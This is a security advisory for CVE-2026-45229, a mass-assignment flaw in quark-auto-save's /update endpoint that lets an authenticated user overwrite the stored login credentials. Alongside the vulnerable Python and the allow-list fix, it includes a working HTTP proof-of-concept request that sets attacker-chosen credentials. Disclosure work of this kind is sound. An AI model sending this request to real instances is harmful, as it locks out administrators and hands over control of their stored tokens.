

# CVE-2026-45229 — Mass Assignment via POST /update (Credential Takeover)

## Summary

The `/update` endpoint in quark-auto-save writes user-supplied JSON directly into the application's `config_data` dictionary using a deny-list to block sensitive keys. The deny-list is too narrow and doesn't include `webui`, which holds the login username and password. Any authenticated user can POST a crafted `webui` object to permanently overwrite the stored credentials, locking out the legitimate administrator and taking full control of the instance.

---

## Metadata

| Field             | Value                                                                 |
|---------|------|
| CVE ID            | CVE-2026-45229                                                        |
| GHSA ID           | N/A (assigned by VulnCheck)                                           |
| Severity          | **High**                                                              |
| CVSS v3.1 Score   | 8.8 — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                         |
| CWE               | CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes |
| Affected Versions | `< 0.8.5`                                                             |
| Patched Version   | `0.8.5`                                                               |
| Affected Repo     | [Cp0204/quark-auto-save](https://github.com/Cp0204/quark-auto-save)  |
| Report Date       | 17 April 2026                                                         |
| Publish Date      | 13 May 2026                                                           |

---

## Vulnerability Details

### Root Cause

In `run.py` at line 187, the `/update` endpoint iterates over every key in the incoming JSON body and writes it into `config_data` unless it appears in a hard-coded deny-list:

```python
dont_save_keys = ["task_plugins_config_default", "api_token"]
for key, value in request.json.items():
    if key not in dont_save_keys:
        config_data.update({key: value})
Config.write_json(CONFIG_PATH, config_data)
```

The `webui` key, which stores the application's login credentials, is not in `dont_save_keys`. An authenticated attacker can POST a `webui` object with arbitrary credentials, which gets written straight to disk. From that point on, only the attacker's credentials work.

The root problem is the deny-list pattern itself. Deny-lists only work if every sensitive key is known and listed upfront. An allow-list approach — where only explicitly permitted keys are accepted — is the correct fix for mass assignment.

### Affected File

`run.py`, line 187

### Vulnerable Code

```python
# Deny-list approach — webui is missing, so credentials are writable
dont_save_keys = ["task_plugins_config_default", "api_token"]

for key, value in request.json.items():
    if key not in dont_save_keys:
        config_data.update({key: value})  # webui gets written here

Config.write_json(CONFIG_PATH, config_data)
```

---

## Proof of Concept

Send this request with a valid session cookie:

```http
POST /update?token=<valid_token> HTTP/1.1
Host: 127.0.0.1:8001
Content-Type: application/json

{
  "webui": {
    "username": "attacker_controlled",
    "password": "TempPassword123!"
  }
}
```

Response:

```json
HTTP/1.1 200 OK
{ "success": true, "message": "配置更新成功" }
```

After this, the only valid credentials for the application are the ones the attacker supplied. The legitimate administrator is locked out immediately.



---

## Impact

Complete authentication takeover of the quark-auto-save instance. Once the credentials are overwritten, the legitimate administrator cannot log in and has no recovery path through the UI. The attacker now has persistent access to everything the instance manages: configured tasks, Quark cloud tokens, push notification credentials, and any other stored configuration.

This also chains directly with CVE-2026-45228. After taking over credentials, the attacker can use the same `/update` endpoint to plant a stored XSS payload that fires for any future authenticated user.

---

## Fix

Fixed in `v0.8.5` by [Cp0204](https://github.com/Cp0204) via commit [`ea8377a`](https://github.com/Cp0204/quark-auto-save/commit/ea8377a596446291953dbe36e2d119d85bcd865b), with the security patch contributed by Katriel Moses.

The deny-list was replaced with an allow-list. Only keys explicitly defined in `ALLOWED_UPDATE_KEYS` can be written via the endpoint — anything else is silently dropped:

```python
# Before (vulnerable) — deny-list missing webui
dont_save_keys = ["task_plugins_config_default", "api_token"]
for key, value in request.json.items():
    if key not in dont_save_keys:
        config_data.update({key: value})

# After (safe) — allow-list, webui is never accepted
ALLOWED_UPDATE_KEYS = {
    "tasks", "push_config", "quark_config",
    "check_in", "resource_search"
}
for key, value in request.json.items():
    if key in ALLOWED_UPDATE_KEYS:
        config_data.update({key: value})
```

If `webui` credential updates need to be supported in future, they should go through a separate dedicated endpoint that requires the current password to be provided and verified first.

---

## Timeline

- **17 April 2026** — Vulnerability discovered and privately reported to Cp0204
- **18 April 2026** — Fix merged and released in v0.8.5, commit [`ea8377a`](https://github.com/Cp0204/quark-auto-save/commit/ea8377a596446291953dbe36e2d119d85bcd865b)
- **11 May 2026** — CVE-2026-45229 reserved by VulnCheck
- **13 May 2026** — CVE published and advisory released

---

## References

- [Fix — commit ea8377a](https://github.com/Cp0204/quark-auto-save/commit/ea8377a596446291953dbe36e2d119d85bcd865b)
- [v0.8.5 Release Notes](https://github.com/Cp0204/quark-auto-save/releases/tag/v0.8.5)
- [CVE-2026-45229 on MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-45229)
- [Cp0204/quark-auto-save](https://github.com/Cp0204/quark-auto-save)